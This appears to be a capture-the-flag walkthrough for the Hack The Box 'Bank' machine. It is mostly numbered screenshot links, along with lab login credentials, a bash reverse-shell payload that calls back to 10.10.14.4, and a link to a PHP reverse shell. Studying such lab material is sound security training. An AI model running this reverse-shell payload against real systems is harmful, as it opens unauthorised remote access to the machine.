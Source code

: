 1.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/444b5f7e-77a0-4fa8-9436-7f7362b919da)

2. 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3a8d03ce-6644-4a77-b25a-62a37f81fe5e)

Website:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4d75ea1a-0ee0-4043-ab12-1c4723a417d8)

3.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/56060574-586b-49e9-8c89-11767235897c)

4.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/983c2b5d-6a77-42e9-9212-9432426c9f91)

5.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9a5fd218-6ba1-43a9-bf26-197780120082)

6.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/16f79c16-d0b8-4b3b-9ca4-1fe5490f989b)

7.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/80db165b-156a-4cda-9a1c-44d05e9b3af2)

**Email**: chris@bank.htb<br>
**Password**: !##HTBB4nkP4ssw0rd!##<br>

After Login:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2b1071fd-84a8-462b-bb0f-950a338d076e)

8.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/398599ce-83cd-4721-8f86-349407801036)

9.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0d186ff2-f5d8-4718-a7b9-eaa3b7333197)


10. [link](https://www.revshells.com/)

Payload: bash -c "bash -i >& /dev/tcp/10.10.14.4/777 0>&1"

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/df5e05a6-8f8b-49a2-bc83-d7fda57735e2)

11.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/865f91da-ae43-45ac-ba0d-9f677021eacc)

12. [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3d6dcad6-9316-42b1-801c-dbe28eec3b6f)

Attacker Terminal:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0daeeb3d-7d38-4245-959a-73d22dd26409)

14.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/055453f7-3cd0-497c-bf68-bae88abdb754)

15.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1148f8d8-0b9a-464f-9ec9-40a9775df200)

16.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1dd2ddf5-490c-4469-a2cf-4c61ec741f3a)

17.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/c322a01f-6674-4bb9-ac4c-79bd6ffeb533)

18.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/19aa24e4-402d-4972-a8ab-d179156fccab)




































